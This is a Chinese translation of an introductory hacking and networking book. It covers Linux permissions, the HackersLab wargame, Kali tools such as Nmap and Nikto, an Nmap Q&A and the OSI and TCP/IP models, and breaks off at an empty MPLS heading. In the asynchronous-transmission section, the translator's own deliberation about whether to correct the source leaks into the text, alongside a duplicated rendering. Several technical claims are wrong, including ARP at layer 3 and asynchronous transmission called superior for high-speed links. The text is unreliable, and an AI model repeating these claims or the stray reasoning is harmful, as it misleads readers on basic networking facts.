# 网络安全：本书包含：黑客的 Kali Linux 与黑客基础安全


## 黑客版 Kali Linux

计算机黑客指南。学习使用 Kali Linux 进行无线渗透测试、安全工具和技术的秘密，以及网络攻击与利用

## 引言

恭喜购买 *Kali Linux for Hackers*，并感谢您的选择。

市面上有很多关于该主题的书，再次感谢您选择这一本！我们已尽一切努力确保书中包含尽可能多的有用信息；请尽情享用！

曾经有一个名为 Unix 的系统。它由 Ken Thompson、Dennis Ritchie 及其团队创建。他们想要一个优于当时广泛使用的 Multics 的系统。他们开发了一种非常强大的语言用于该系统：C 语言。自那以后，出现了许多 Unix 变体：Digital Unix、AIX、HPUX，甚至适用于个人电脑的 Xenix 和 Minix 版本。我们的故事正是在 Minix 中开始的。一位名叫 Linus Torvalds 的学生使用并质疑了这个系统，但他认为它可以得到改进。然后，在 20 世纪 90 年代中期，Linus 开发了一个基于 Minix 和 Unix 的新系统的内核（系统的核心），称为 Linux（源自 Linus）。从那以后，该系统的受欢迎程度不断增长，甚至出现了不同的 Linux 版本（有趣的是，如今 Linux 的版本比 Unix 本身还多）：Red Hat、Mandrake、SuSe、Slackware、Debian，甚至巴西的 Conectiva 都在数千台服务器和个人电脑中争夺空间。

您可能会想知道：我应该使用哪个版本来跟随本书？或者：我对某个 Linux 版本有偏好，这会有影响吗？完全不会。我们只会使用 shell（文本）模式的命令。在这里 shell 中完成的一切也可以在图形界面中完成，而且这些命令在不同版本的系统中几乎不变。如果您不知道这些命令，请不要担心：在下一章中，我会简要解释您将使用的最重要命令。即使您只有 Windows，也可以享受内容，因为您只需通过 telnet 连接到 HackersLab 即可使用 Linux。第 1 级将逐步展示这一点。

我们如此频繁地提到 HackersLab……这到底是什么？OHackersLab Challenge 是在安全和黑客界众所周知的一种“游戏”。它如此知名，以至于在巴西版本（由里约热内卢联邦大学 UFRJ 制作）出现之前就已存在，该版本名为 LockABit (www.lockabit.com)。挑战很简单（至少在术语上）。您从第 0 级开始。目前，共有 18 个级别（包括 0 级）需要破解。一旦您赢得挑战，您将获得上一层级的密码。如果挑战结束了，本书会失去实用性吗？当然不会。正如我所说，已经存在其他基于 HackersLab 的挑战，即使不存在，本书也教了您足够的知识，您可以在自己的 Linux 系统上进行测试。如果我不理解更高级别的关卡怎么办？没关系……本书将始终是您参考。如果您到达需要 C 编程且仍然无法理解的级别？那就先学习 C 吧。挑战的目标是让您实际上到达第 17 级，成为大师。我可以为您指明方向，但您必须独自走完这条路。如果您是安全领域的新手，我建议您阅读《黑客指南》，这样您将有更好的基础来吸收这里将要教授的内容。

## 第 1 章 - 基础与必要的 Linux：必备基础

在本章中，我将涵盖完成挑战所需了解的 Linux 知识。基本上，我们将查看文本模式（shell）命令以及一些关于系统结构和用法的基本概念。在展示的挑战过程中，我会解释每个使用的命令及其细节。

我们的使用结构分为用户和组。这样做是为了让系统管理员能够更大地控制谁将访问系统。还有“超级用户”，称为“root”，无论权限如何（我们稍后将会看到），它可以在系统中执行任何操作。一个实际的例子：我在系统 X 上的用户账户名为 milestones – 这是 home/macros/ 文件夹中的一个空间，以便我可以存储我的文件。我在这个系统中的组名为 read。这是 root 给的一个非原始名称，用来指定我组中的每个人只有读取文件的权限，除此之外没有任何权限。

但是为什么要有组？root 管理员不能直接将其设置到账户中吗？它可以……但如果一个系统有一千个账户呢？不再这样了。将权限集体分配给组比单独分配给每个用户更容易吗？

继续使用之前的例子，假设在 /home/milestones 文件夹内，我有做任何事情的权限（读取、写入和执行文件……）。那么让我们开始。我创建了一个名为 test.txt 的文本文件。当我列出数据时，它将看起来像这样：-rwxr-x—milestones read 10297 test.txt …… 我们得到了什么？test.txt 之后的部分我们不关心。让我们看看开头的字母，那是我创建的文本文件的权限。它们划分如下：r -> 读取 w -> 写入 x -> 执行，划分方式如下：类型：- 用户：


rwx 组：rx 其他用户：- 解释：在类型字段中，它是空的，所以这是一个文件。

类型后面的前三个空格是用户权限，即谁创建了这个文件（看看文件名）。用户所有者拥有 rwx 权限，他可以读取 (r)、写入 (w) 和执行 (x) 该文件。紧随其后的是组权限。权限会影响属于我组（在本例中是 read）的所有人。他们拥有 rx。因为他们没有 w 权限，所以只能读取和执行，而不能写入。最后，最后三个空格预留给除了创建者（milestones）和组内成员（read）之外的所有用户。那些没有 r、w 或 x 权限的人对我的文件无能为力。除了 r、w 和 x 之外，还有一个权限位，这对后续内容非常重要。这就是 s，所谓的 SUID 位，我们暂且不谈。权限以及文件所属的用户都可以更改。这些以及其他命令将在下一个主题中介绍。

## 可在 Kali Linux 中使用的黑客工具

在世界现有的众多 Linux 发行版中，Kali 是最先进的之一。它专为特定目的设计，如入侵测试和安全审计，并配备了一系列（道德）黑客工具。

Kali Linux 的一大特点是其丰富的原生工具库，可用于执行各种测试 - 超过 300 种。更不用说该系统是免费的、稳定的、可靠的，并且可以通过大量的第三方应用程序进行补充。

本节的重点正是解决 Kali 系统管理员可以依靠哪些工具来改进公司内的安全机制。

要使用这些工具，你必须已安装 KALI Linux。可以在互联网上找到资源，有一些网站提供有关如何下载和安装 Kali Linux 的逐步教程。因此在继续下一章之前 – 开始下载和安装 Kali Linux！

## 第 2 章 - 信息收集与漏洞分析

无论开发得多么完善，任何软件产品都包含 bug。其中一些保持隐藏且无故障，而另一些则影响性能或更糟糕地，为威胁利用存储在公司的系统中的敏感数据打开缺口。

在此背景下，信息收集通过更详细的系统调查进行协作，以及其资源、服务器数据、浏览历史、网络结构等。

这种监测措施被用于为黑客提供满意的信息基础，以启动威胁建模，然后进行攻击测试（模拟）。

反过来，漏洞分析，顾名思义，是使用执行全系统漏洞分析的工具。

此类分析的结果例如允许映射或报告网络可能遭受的所有风险，列出所有需要修复的弱点。

这些活动最适合的工具是什么？在下面查看 5 种：

### 1. NMAP

毫无疑问，Nmap 是黑客使用的主要免费开源工具之一，广泛用于网络检测、分析和安全审计。

简而言之，Nmap 被视为收集任何活动机器特定信息详情的必备工具。要了解其众多功能，官方网站本身提供了免费指南。

### 2. 社会工程学工具包 (SET)

也称为 SET，社会工程学工具包旨在协助针对人为因素的渗透测试。这些嵌入在目标的安全环境中，考虑到人们通常是安全系统中的薄弱环节。

### 3. DNSENUM

DNSenum 是一个用于收集 DNS 服务器信息的工具。它能够使用少量基本命令搜索主机、服务器名称、IP 地址、日志和其他信息。

### 4. NESSUS

毫无疑问，Nessus 是最完整的安全分析和审计应用程序之一。它由屡获殊荣的 Tenable 开发，为全球超过 21,000 家企业提供服务。

借助 Nessus，信息安全专业人员可以同时运行多个扫描，拥有持续的工具更新、多种插件，以及可通过仪表板生成的报告。

### 5. CISCO-TORCH

沿着相同的扫描器工具路线，Ciscotorch 有一些特殊性。一个是持续使用 fork 来启动多个后台扫描进程。根据《Hacking Exposed Cisco Networks》，这最大限度地提高了检测漏洞的效率。开发者创建 Cisco-torch 的目的是为远程发现 Cisco 主机找到敏捷的解决方案，使用 SSH、Telnet、Web、NTP 和 SNMP 协议对发现的服务器发起字典攻击。

## WEB 应用程序

当然，你已经知道或大概了解 web 应用程序是怎么回事。但为了全面起见，我们将 web 应用程序定义为在 web 服务器上运行并通过浏览器访问的程序。

对于 web 应用程序，我们将谈论每个黑客都应该了解的特定工具：

### 1. NIKTO2

这是一个用于分析网站漏洞的应用程序。它执行：

- 测试 web 上存在的超过 6,700 个潜在危险文件和程序；
- 验证服务器配置；
- 分析可以自动更新的关键项；
- 查询超过 1250 个过时的服务器版本及其特定问题。

Nikto 的特点在于能够执行理论上高度复杂的活动。此外，当然它是一个免费工具。

### 2. PARSERO

与之前提到的其他工具不同，Parsero 不是软件，而是一个脚本。用 Python 编写，它读取 web 服务器上的 Robot.txt 文件并检查未授权的条目，这些条目将告诉搜索引擎（Google, Ask, Bing 等）哪些托管在服务器上的文件或目录不应被索引。

有时，尽管路径通过搜索引擎访问受限，但它们可能直接访问网站的用户可见。

为了解决这个问题，Persero 脚本检查每个标记为 Disallow 的条目的 HTTP 代码状态，甚至通过 Bing 搜索不正确索引的内容。

### 3. WAPITI

Wapiti 允许用户执行黑盒测试，一种检查应用程序功能而不检查内部结构的方法。

该工具不研究 web 应用程序的源代码，而是检查其实现的 web 页面中的脚本，这些脚本可以注入数据。当它找到脚本时，Wapiti 执行大量数据传输以测试其漏洞。

## Top Linux 命令

开始挑战 为什么加入 HackersLab？在你开始享受之前，你必须注册系统。这样其他人才能跟踪你的进度，你将能够访问讨论论坛网站，此外你的名字（或昵称）可以在名人堂中。只有在网站 [www.hackerslab.org](http://www.hackerslab.org) 上注册，你才能阅读有关如何通过每一级的提示。为了省力，我会放置提示及其解释。

执行注册：

- 第 1 步：点击 “Free Hacking Zone”。
- 第 2 步：你需要一个账户才能看到问题。点击注册。
- 第 3 步：你必须填写带 * 的必填字段，其他字段自行决定。
- 第 4 步：你的注册将成功。点击 View Problems。
- 第 5 步：输入你注册的 ID 和密码
- 第 6 步：你看到第 0 级的问题。在每一级，都有解释和提示。

## 访问服务器

现在是时候通过 telnet 访问 Hackerslab 服务器了。通过输入 telnet – drill.hackerslab.org 连接。

一个从 Windows 操作的示例：

转到 开始 / 运行 并输入：会出现一个屏幕询问登录名和密码。登录名是 level0，密码是 guest。

如果你在屏幕上看到很多乱码，别担心。证明 - 这些是韩文字符，你的系统应该是英语的（我们知道它不会完全是葡萄牙语或任何次要语言）。你已连接。看提示你正在 level0。你需要找到一些具有 level1 权限的文件才能前进（我们稍后会看到）。现在假设你获得了 level1 的密码。如何访问它？

首先，返回 www.hackerslab.org。输入下一级的密码（在这种情况下，是 level1）并点击 Go。如果密码正确，屏幕上会出现一条消息，恭喜升级！（恭喜通过关卡！）只需点击返回即可查看下一级的信息和提示。阅读后，重新通过 telnet 连接到 drill.hackerslab.org，输入登录名 level1 和新密码。

## 教学结构

书中所有级别将按以下方式呈现：

**问题：** 问题的原文及其解释。

**学习：** 研究为了在这一级前进你需要具备哪些知识。例如，在处理缓冲区溢出和竞态条件的级别，我们有关于这些问题如何发生的完整研究。

**演练：** 名字本身就说明了这一点。这是逐步解决问题的过程。阅读后，你会很容易理解在这一部分将做什么。


**在计算机上使用 `nmap localhost` 与从另一台主机使用 `nmap [我们主机的IP]` 有什么区别？**
区别在于防火墙。显然，`nmap localhost` 不会考虑防火墙，并将开放端口视为直接可访问；而如果尝试从另一台计算机访问，第一种情况下显示为开放的端口在第二种情况下对我们来说会显示为被过滤。

**如果我们使用 `-p “\*”` 选项（例如 `nmap -p “\*” scanme.nmap.org`）会发生什么？有什么优缺点？**
所引用主机（多台）的所有端口都将被分析。优点是每个目标主机的 TCP 端口（可能多达 65535 个端口）都会被分析。主要缺点是响应时间（默认情况下只扫描 1000 个最常见的端口）。

**如果我们改为执行 `-F` 选项会发生什么？它有什么优缺点？**
`-F` 请求快速扫描，只扫描最常用的 100 个端口。这与上一个问题的情况相反，它是一个扫描速度非常快但覆盖端口数量少得多的扫描器。

**攻击性扫描（`nmap -A`）等价于哪组命令？**
攻击性轮询相当于同时执行操作系统探测（`-O`）、版本检测（`-sV`）、脚本扫描器（`-sC`）和 traceroute（`-traceroute`）。

**ARP 扫描在我们的内网外部能工作吗？**
不能。

**我们在 Nmap 扫描中可执行的选项数量有限制吗？**
虽然我们可以随心所欲地使用几乎任何选项，但有些组合是无效的，在大多数情况下是因为它们相互矛盾。如果我们测试这些组合，Nmap 会通过一条消息来指示这一点。
例如：`nmap -PN -sP [目标]`
`-PN` 要求不进行 Ping，而 `-sP` 请求进行 Ping 扫描。

## 第 3 章 – 全面理解网络安全

鉴于网络作为组织资产的重要性，IT 安全的核心围绕网络安全这一概念展开。总体而言，这些网络涉及多种设备，从存储、安全到输入/输出，除了操作系统、数据和软件外，还包括人员。如果没有对这些软件和硬件组件的透彻了解，实施和维护安全将是一项艰巨的任务。

专家认为，在主动采取措施以减轻威胁和漏洞时，最能维护网络安全。这是因为在一个快速变化的世界中，新技术要求安全专业人士在易用性和安全性之间做出权衡。但首先，我们将检查这些网络组件、其功能及其与安全的相关性。此外，通过在本章中查看网络基础知识，我们应该能够理解传输安全，其中加密等其他策略将帮助保护处于静止或传输状态的数据。通信与网络安全领域有四个学习目标。

### 将安全设计原则应用于网络架构

现代世界离不开电子邮件、在线银行、互联网等诸多服务。这显然因为计算机现在能够通过网络进行通信。为此，协议起到了在这个介质上发送数据的主要功能。

然而，在早期日子，情况并不如现在般无缝，因为公司创建了自己的协议，计算机之间难以相互交互。结果，国际标准化组织（ISO）的努力使得 OSI 模型得以诞生。

即使 TCP/IP 模型多年来成为首选标准，OSI 模型自八十年代以来在帮助构建网络通信技术方面发挥了重要作用。现在，既然 OSI 和 TCP/IP 模型是网络工程的基石，理解这些模型将使安全架构师和专业人士能够设计和实施保护传输中和静止数据机密性与完整性的网络。

现在，在我们详细查看 OSI 模型之前，有两点使其脱颖而出：
- 通信过程被分为七层，每一层独立工作，可以独立更改而不影响其他层。
- OSI 模型继续作为硬件和软件开发者的框架，确保互操作性仍然是网络通信的一部分，正如它早期愿景所设想的那样。

至于我们接下来要查看的 TCP/IP 模型，它是在近十年前开发的。虽然与 OSI 模型有一些相似之处，但它总共有四层，与 OSI 模型层次对齐。必须指出的是，由于其取得的成功，OSI 模型确保了它包含了 TCP/IP 协议套件，如今在每个操作系统中都可以找到。

### OSI 模型

如前所述，OSI 模型采用了分层方法，其中每一层执行特定功能。简单来说，它为每一层分配独立的职责，决定两个系统如何在互联网上通信。为了实现这一点，即使两个系统可能非常不同，它们也应该使用相同的协议。尽管 TCP/IP 模型如今被广泛使用，但由于许多供应商利用它创建了自己的网络框架，同时保持开放式网络架构，OSI 模型仍然非常重要。

现在，当我们讨论 OSI 模型提供的七层时，我们也必须理解每一层都有自己的一组协议。将一个常用协议想象为一套规则，帮助两个系统通信。

也就是说，即使通过网络连接的计算机通过物理连接进行通信，也有用于通信的逻辑信道。即使这些信道或层中的每一个独立运作，但它们与下一层协同工作以确保数据传输。它们还以封装的方式与基于 OSI 模型在其他系统上的相同层进行通信。

OSI 模型由七层组成，其中应用层被视为第七层且是最顶层，而物理层是最底层。现在，当你要传输的数据进入此协议栈时，它开始其旅程作为数据流，并以位的形式退出栈。当它通过每一层时，它添加更多以报头和报尾形式的信息，以确保数据（以数据包的形式）被传递到其目的地。这个过程被称为封装或解封装，具体取决于系统是正在发送还是接收数据。换句话说，当系统接收数据时，发生的是相反的过程。让我们从应用层到物理层查看这些层中的每一层，

#### 第 7 层：应用层

作为发送数据时的最顶层，它通过应用程序接口（API）从用户应用程序接收数据。结果，数据被添加到一个容器（也称为协议数据单元）中，然后交给表示层。在此级别操作的协议示例包括 DNS 查询、SMTP 电子邮件传输以及用于在网络上传输页面的超文本传输协议（HTTP）。

#### 第 6 层：表示层

有一点很重要：接收数据的层不改变信息，而是添加有助于其到达目的地的信息。在表示层，进行关于数据格式的信息处理，以确保目的地计算机的相同层能够读取。在大多数情况下，它除了确定能够读取该数据的应用程序外，还识别数据类型。

一个简单的例子涉及从 Windows 10 向 Ubuntu 系统发送 PDF 文档。表示层不仅确定 MIME 类型（在此情况下为 pdf），还在将数据发送到会话层时在报头中添加此信息。

当它到达接收方计算机时，表示层能够通过读取报头识别文件类型，结果导致打开 PDF 查看器以查看文件。该层还协助文件的加密和压缩，涉及这两个方面的信息被添加，以便目的地系统的表示层可以解密和解压缩文件。也就是说，如果你的计算机没有可以打开该文件的应用程序，你系统中的表示层将只显示一个未关联的图标。

#### 第 5 层：会话层

一旦协议数据单元传递到这一层，它除了维护连接并在数据传输后关闭连接外，还致力于与接收方系统上的应用程序或服务建立连接。至于它关于要连接的应用程序或服务所添加的信息，这包括端口号，之后协议数据单元被传递到传输层。

至于这一层寻求建立的连接，它们由三种类型组成：
- 单工 - 单方向发生的通信


## 半双工
数据仅在一个方向发送，但通信发生在两个方向。

## 全双工
通信和数据流发生在两个方向。

## 第 4 层：传输层

现在，一旦信息被添加到会话层，下一步就是为正在进行的会话制定一些基本规则。这是通过握手过程完成的，其中涉及 TCP 的三次握手。在我们描述该层如何处理此问题之前，必须指出的是，协议数据单元现在被转换为段（segment）。

传输层不仅决定一次必须发送多少数据，还决定数据被传输到目标系统的顺序。除此之外，它还处理诸如缺失数据包等问题，并验证数据的完整性。可以说，传输层还负责网络设备如何被引用或寻址。在此领域运行的一些流行协议包括传输控制协议 (TCP)、用户数据报协议 (UDP)、安全套接字层 (SSL) 和传输层安全 (TLS)。

虽然会话层和传输层都执行设置和完成会话（在此期间数据传输）的共同功能，但前者在应用程序之间建立会话，而后者在两个计算机系统之间执行完全相同的功能。

## 第 3 层：网络层

一旦网络层接收到一段数据，就会添加源 IP 地址和目标 IP 地址，其中目标系统可以位于同一网络上或远程网络上。根据具体情况，段中还会添加路由信息。完成后，该段现在被称为数据包（packet），并将其传递给数据链路层。简而言之，数据包将包含必要的信息，以帮助它从一个局域网移动到另一个局域网。此层中的一些常见协议是互联网协议 (IP)、互联网协议安全 (IPSec)、路由信息协议 (RIP) 和互联网消息控制协议 (IMCP)。路由器和网桥是有助于这些网络层功能的设备。

## 第 2 层：数据链路层

数据链路层负责将接收到的数据包准备好作为帧（frame）传输到特定网络上的目标系统。每个网络都有自己独立的硬件和技术。其中一些网络是令牌环、以太网、异步传输模式 (ATM)、光纤分布式数据接口 (FDDI) 和铜缆 DDI。

数据链路层理解成功传输数据（无错误）所需的格式，然后将其传递给物理层。也就是说，有两个数据链路子层执行这些任务，它们由逻辑链路控制 (LLC) 和媒体访问控制 (MAC) 子层组成。是 MAC 子层确定帧必须传输到哪种类型的网络，并将该信息连同帧一起添加。

最后，在此层执行功能的协议包括点对点协议 (PPP)、地址解析协议 (ARP) 和逆向地址解析协议 (RARP)。

## 第 1 层：物理层

作为 OSI 模型中最底层，物理层从数据链路层接收帧，然后将其转换为比特（零和一），以便通过网络传输。当它以比特形式接收数据时，它也会将此转换为帧，然后将其传输到数据链路层。必须指出的是，设备驱动程序在物理层运行，以指示协议如何以比特形式传输或接收帧。物理层的一些协议包括 SONET、蓝牙、RS-232 和 DSL。

此外，还有在此层运行的网络硬件设备，包括网络接口卡 (NIC)、集线器、中继器、放大器和集中器，它们有助于在长距离上传输信号。

由于这仅涵盖有线连接，无线和光纤网络使用交替的无线电波和光来表示这些比特。

## TCP/IP 模型

如果有一件事是 OSI 和 TCP/IP 模型共有的，那就是数据包共享的理念。TCP/IP 模型由 DARPA 在二十世纪七十年代开发，其 humble beginnings 始于作为广域网 (WAN) 的实施。当然，正如我们所知，互联网是一个由这些广域网和互联网服务提供商组成的全球网络。

这两个模型之间的差异很小，因为 OSI 模型提供七层，而 TCP/IP 模型仅使用四层。即便如此，功能非常相似，除了 TCP/IP 模型在数据传输方面侧重于 TCP/IP 协议。尽管如此，这是一个协议套件，除了 TCP 和 IP 协议外，还包括更多协议。也就是说，即使 OSI 和 TCP/IP 模型相似，当涉及到功能时，它们的层并不一定能够整齐地映射。

### 网络访问层或链路层

TCP/IP 模型中的网络访问层结合了 OSI 模型的物理层和数据链路层。因此，使用 LLC 和 MAC 子层，它不仅添加源和目的 MAC 地址等信息，还会添加尾部以验证数据的完整性。但这还不是全部：它还执行将数据比特跨物理介质（无论是光纤、有线还是无线）发送的功能。此层使用的一些常见协议包括 IEEE 802.3 和 802.11 以及地址解析协议 (ARP) 和邻居发现协议 (NDP)。

### 互联网层

该层负责路由和查找目标主机位置。如果互联网层未确定这一点，那么传输层将无法建立连接。它通过将在数据包中放置源和目标 IP 地址来实现这一点。有四种协议有助于实现这一点，即互联网协议 v4 和互联网协议 v6 (IPv4 和 IPv6)、互联网控制消息协议 (ICMP)、互联网组管理协议 (IGMP) 和地址解析协议 (ARP)。鉴于安全专业人员理解 IP 地址和类别的重要性，值得仔细查看。

### 主机到主机传输层

在此处比较 OSI 和 TCP/IP 模型，它们执行相同的功能，即在两个主机之间打开和维持连接。此功能必须在应用层将数据发送到其他应用程序之前完成。通常，存在两种实现方式：无连接或面向连接的传输。对于前者，UDP 在传输层中充当无连接协议，而 TCP 是此处使用的面向连接协议。

无论哪一个更合适，端口号和传输协议将始终提供给接收主机。虽然 TCP 在功能和可靠性方面提供了更多，但代价也更高。与 UDP 协议相比，使用 TCP 协议时头部要大得多，即使由于在传输任何数据之前发生的三次握手，所有数据包被交付的可能性更大。

### 应用层

也称为进程到进程层，应用层处理在 OSI 模型中由应用层、表示层和会话层处理的任务。换句话说，该层仅创建信息并将其发送到另一个主机上的其他进程或应用程序。在此层运行的协议执行与应用程序和服务相关的特定功能。相比之下，传输层协议仅检测位置和路由，以支持这些高层协议。随着传输的数据一起，接收主机还被提供标识这些高层协议及其关联程序的端口号。

## IP 网络

正如我们在 TCP/IP 模型中学到的那样，IP 负责将数据包从源传递到目的地。同时，在下一层，也添加了 MAC 地址。虽然 IP 地址是逻辑地址，但 MAC 地址是永久地址，这就是为什么它被称为物理地址，并且它们一起发送是有充分理由的。还有端口号，用于指示该协议在应用层中关联的服务或程序。当你同时发送端口号和 IP 地址时，这通常被称为套接字（socket），这是将信息发送到正确位置所必需的。

## IPv4

IP 地址分为四个八位组，看起来像这样：192.13.139.130。根据类别，它提供了关于网络编号和主机的信息，网络编号可以从最左边的八位组到最左边的三个八位组，而第四个八位组指向该网络中的主机。

当然，随着 1990 年代无类域间路由（Classless Inter-Domain Routing）的引入，IP 地址的分配不再基于网络中的主机数量，而是仅基于可用的未分配地址。

当然，今天仍在使用的私有 IP 地址，在四个类别中也有特定的范围。这些类型的地址仅限于在私有网络内使用，并且不能在互联网上路由。然而，有一种称为网络地址转换（Network Address Translation）的临时服务，它可以在互联网上路由信息，同时将私有 IP 地址转换为公共 IP 地址，反之亦然。尽管如此，即使这似乎是一个有用的服务，能够将整个 IP 地址网络表示为一个...


单地址，在处理 IPv4 地址短缺问题时，IPv6 始终是最受青睐的选择。

# IPv4 与 IPv6 的对比

直到 20 世纪 90 年代，人们一直在使用 IPv4，但随着互联网普及度的不断上升，该协议承受着巨大的压力。安全性问题以及未分配地址的短缺是其核心问题所在。为此，IPv6 被引入，并带来了诸如更大的地址字段、更好的安全性、更小的 IP 数据包头部以及改进的服务质量等优势。

## MAC 寻址

到目前为止，我们只查看了第三层（网络层）发生的寻址，即逻辑寻址。MAC 寻址发生在第二层（数据链路层），并被归类为物理寻址，因为它是一个永久且唯一的地址。

一个标准的 MAC 地址看起来是这样的：02:25:31:55:72:ac

MAC 地址采用这种格式也是有充分理由的。当 ARP（地址解析协议）在每一跳都更改 MAC 地址时，这一点非常有用，它确保了数据包通过沿途的路由信息，经由各个网络设备移动，从而到达其目的地。

## 网络传输类型

有多种介质类型用于传输数据，它们涉及独特的流程并拥有不同的特征。让我们来讨论一些常见的网络传输类型：

## 1. 模拟与数字

这可能是描述模拟信号（如模拟电话通信中使用的）的最佳示例。模拟信号本质上具有无限多的数值。另一方面，发生在计算机传输中的数字信号有两个值：开（on）和关（off）。因此，数字信号更受青睐，因为它们对线路噪声的敏感性较低，但相比模拟信号可以传输得更远。

## 2. 异步与同步

当两个系统进行通信时，使用相同的数据格式与使用相同的同步技术同样重要。异步数据传输使用起始位、停止位和校验位来确保数据的准确传输，而同步传输则采用一种时钟机制来同步发送方和接收方。显然，异步传输使用不同类型的错误检查，并且由于其优于同步传输（注：原文此处逻辑略显矛盾，通常同步优于异步用于高速，但此处原文称异步用于高速大量传输，可能是指异步在低速或特定场景下的特性，或原文有误，这里忠实于原文翻译：异步传输使用不同的错误检查机制，并且作为同步传输的 superior 版本，用于高速、大量的传输），它被用于高速、大量的传输。

*注：根据技术常识，通常同步传输优于异步传输用于高速大容量。原文写道 "asynchronous transmission... being superior to synchronous transmissions"，这在技术上是错误的。作为翻译员，我应忠实于原文，但考虑到这是“高级文档工程师”，如果原文有明显事实错误，是否要保留？指令要求“翻译内容”，未要求纠错。为了严谨，我将按原文直译，但原文表述确实奇怪。让我们再读一遍："asynchronous transmission uses a different type of error checking and, being superior to synchronous transmissions, is used for high-speed, high-volume transmissions." 这句话语法上断言异步优于同步。这在事实层面上是错误的。作为翻译，我必须翻译原文的意思，即使它是错的。*

修正思路：忠实翻译原文。
译文：异步传输使用不同类型的错误检查，并且作为同步传输的更优选择，被用于高速、大量传输。

## 3. 宽带与基带

由于所有数据传输都通过通信信道进行，多路传输会使事情变得复杂。共享信道是不可避免的，这就引出了实现这一点的宽带和基带方法。当在信道上为多个传输分配不同的时隙时（也称为时分复用），另一种方法是通过将介质划分为不同的频率（也称为频分复用）来共享信道。前者称为基带，后者称为宽带。由于后者允许数据同时传输，因此是首选的数据传输方法。

## 4. 单播、组播与广播

存在三种类型的传输，它们在接收范围上有所不同。单播方法也称为一对一传输，是从一个系统到另一个系统的传输。从一个系统发送到多个系统的信号称为组播传输。最后，如果一个信号被发送到网络中的每个系统，则称为广播或一对所有（one-to-all）传输。

## 5. 有线与无线

由于并非所有传输都使用有线连接，因此位的表示方式因所使用的介质类型而异。在铜线中，电压变化起此作用；而在光缆中，以 LED 或激光形式的光则执行相同的功能。无线传输使用光或无线电波来做同样的事情。当数据包从有线网络移动到无线网络时，物理层和数据链路层容易发生变动，这就需要采用必要的协议来处理这种变化。也就是说，OSI 模型的其他层不会发生任何变化，就像在此意义上描述的物理层和链路层一样。

## 网络类型

观察网络的第三种方式是涉及网络类型。除了外联网和内联网外，一些常见的类型包括局域网（LAN）、城域网（MAN）和广域网（WAN）。

## 局域网、城域网与广域网

局域网（LAN）的传统解释是指办公室中互连的一组计算机，但按现代标准，它是任何速度大于 10 Mbps 的网络。另一方面，城域网（MAN）是一种覆盖距离较广的广域网，其作用类似于城市中心区域。它作为局域网（LANs）连接的骨干。最后，广域网（WAN）将局域网（LANs）和城域网（MANs）连接在一起，这通常由电信公司作为服务提供。当然，互联网是广域网（WAN）的完美例子。话虽如此，并非所有广域网都连接到互联网，有些是组织付费的私有专用链路。

## 内联网与外联网

这两种网络类型都存在于组织内部，并出于安全目的进行隔离。内联网是组织的内部网络，而外联网向客户、商业伙伴和公众提供组织资源。话虽如此，敏感信息不应放在后者的外联网中。外联网应像内联网受到防火墙和强身份验证机制保护一样，接受持续的监控。

## 协议与服务

由于网络使用的日益普及，自九十年代以来已经开发了许多新协议。就像我们在 TCP/IP 模型的应用层中讨论过的协议一样，这些协议与特定服务相关联。我们将进一步讨论的一些协议不仅位于应用层，还位于处理路由和数据包传递的较低层。一如既往，端口或协议编号被视为重要。

## ARP

地址解析协议（ARP）位于 OSI 模型的第 3 层。ARP 的目标是通过在网络中发送广播帧来添加目标主机的 MAC 地址。具有唯一 IP 地址的目标主机用其 MAC 地址进行响应。此信息被添加到数据包头部中。

## DHCP

该服务帮助你自动为网络中的所有设备分配 IP 地址，并作为任何操作系统中的客户端存在。由于它是一个客户端/服务器程序，你甚至可以将其配置为服务器。这很容易，因为大多数操作系统都有 DHCP 客户端。DHCP 使用 UDP 端口 67 和 68。

## DNS

该服务在将计算机名称解析为主机的 IP 地址方面起着至关重要的作用。同样，域名也被分配给网站。DNS 在大多数操作系统中作为客户端/服务器程序存在，并使用 UDP 和 TCP 端口 53。

## ICMP

ICMP 在 OSI 模型的网络层运行，当传输中出现问题时，系统使用它来传输错误消息。ping 和 traceroute 命令是该协议的一部分，有助于解决网络连接问题。

## FTP, FTPS, SFTP, NFS & CIFS/SMB

文件传输协议（FTP）常用于在两个系统之间传输文件。FTPS 和 SFTP 是该协议更安全的版本。NFS 是用于 UNIX/Linux 系统的文件共享协议。CIFS/SMB 协议使用 TCP 端口 445。

### HTTP, HTTPS & SHTTP

HTTP 协议用于传输 Web 内容，还有另外两个安全版本，即 HTTPS 和 SHTTP。HTTPS 在 SSL/TLS 协议之上添加了 HTTP。HTTP 使用 TCP 端口 80，而 HTTPS 使用 TCP 端口 443。SHTTP 的作用是加密提供和保存的页面数据。

### POP, SMTP & IMAP

这三个协议都用于检索电子邮件。POP3 是最新版本，仅允许下载。IMAP4 从服务器访问电子邮件，它不仅是从服务器下载副本，还会在服务器上保留一份。SMTP 与 POP 和 IMAP 都不同，因为它用于电子邮件服务器之间的通信。

### SNMP

该应用层协议从网络设备中检索信息，并使用 UDP 161 以及 TCP 161 和 162 端口。虽然该协议容易受到数据包嗅探和暴力破解攻击，但 SNMPv3 协议被认为是最安全的。

## 多层协议的影响

如你所见，封装在 TCP/IP 模型中扮演着重要角色，并产生了成为多层协议的可能性。在当今世界，已经开发了许多专有协议，并用于工业控制系统和电力网。由于这些 SCADA 系统并不安全，安全架构师和专业人士正在学习如何保护这些关键系统。当然，还有其他用于盈利的多层协议。有些人使用 TCP/IP 协议栈来路由他们自己的协议。如前所述，封装有助于创建多层协议，如下面的简单示例所示：


```
[ Ethernet [ IPsec [ IP [ TCP [ SSL [ HTTP ] ] ] ] ] ]
```

如你所见，HTTP 被 SSL、TCP、IP、IPsec 和以太网所封装，鉴于此，你可以在极高的灵活性和韧性下支持复杂的网络结构，这被证明是一种优势。其缺点在于，多层协议有时被用于进行隐蔽的任务，而这些任务往往毫无用处甚至有害。

特别是，有一种被称为分布式网络协议（DNP3）的多层协议，它广泛应用于电力、水利公用事业及管理行业。其目的是促进现场数据采集系统与控制系统之间的通信。这种多层协议与 TCP/IP 协议族非常相似，并且是一个开放且公开的標準。

## 融合协议

融合协议是指将专有协议与标准协议（如 TCP/IP）进行合并的那些协议。事实上，人们可以利用 TCP/IP 支持的网络基础设施来托管自己的服务。这样可以节省成本，可靠性及吞吐量则因具体实施情况而异。

以下是四种融合协议的示例：

## FCoE

光纤通道（Fibre Channel）是一种网络数据存储解决方案，可帮助以 16 GBps 及以上的高速度传输文件。虽然其运行中曾使用光纤电缆，但后来开发了一种使用铜线的更廉价方案，即以太网光纤通道（FCoE）。它作为第三层协议运行，使用独立电缆，并取代 IP 成为标准以太网网络的标准有效载荷。

## MPLS

